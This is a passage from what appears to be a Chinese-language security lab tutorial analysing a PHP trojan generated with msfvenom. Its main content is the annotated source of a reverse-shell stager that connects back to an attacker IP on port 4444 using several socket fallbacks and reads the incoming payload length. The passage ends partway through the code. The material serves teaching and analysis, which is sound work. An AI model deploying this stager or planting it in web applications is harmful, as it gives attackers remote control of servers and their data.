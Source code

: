 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534155988211.png-wm)

之后可以使用 `ls` 命令，查看当前目录下的文件。此时 `hello.php` 木马文件已经生成，可以通过 `cat hello.php` 查看该文件的内容：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534155734467.png-wm)

### 4.2 分析 PHP 木马代码

对于使用 msfvenom 生成的 PHP 木马，其源代码如下所示：

```
/*<?php /**/ error_reporting(0); 

// 攻击者的目标 ip 地址
$ip = '192.168.122.101';

// 攻击者的端口为 4444
$port = 4444;

if (($f = 'stream_socket_client') && is_callable($f)) { 
    
    // 连接 ip 地址和端口
    $s = $f("tcp://{$ip}:{$port}");
    $s_type = 'stream'; 
} elseif (($f = 'fsockopen') && is_callable($f)) {

    // 由 ip 地址和端口两个参数连接
    $s = $f($ip, $port); 
    
    // 类型 type 为 stream
    $s_type = 'stream';
} elseif (($f = 'socket_create') && is_callable($f)) {

    $s = $f(AF_INET, SOCK_STREAM, SOL_TCP);
    
    // 由协议，ip 地址，端口三者确立连接
    $res = @socket_connect($s, $ip, $port);
    
    // 判断是否为空，为空则终止脚本函数
    if (!$res) { 
        die(); 
    } 
    
    // 连接的数据类型
    $s_type = 'socket'; 
} else { 
        die('no socket funcs'); 
} 

// 如果没有 socket 连接，则报错
if (!$s) {
    die('no socket'); 
} 

switch ($s_type) { 
    case 'stream': $len = fread($s, 4); break;
    case 'socket': $len = socket_read($s, 4); break;
} 

// 根据长度判断是否为空，为空则终止脚本函数
if (!$len) {
    die(); 
} 

```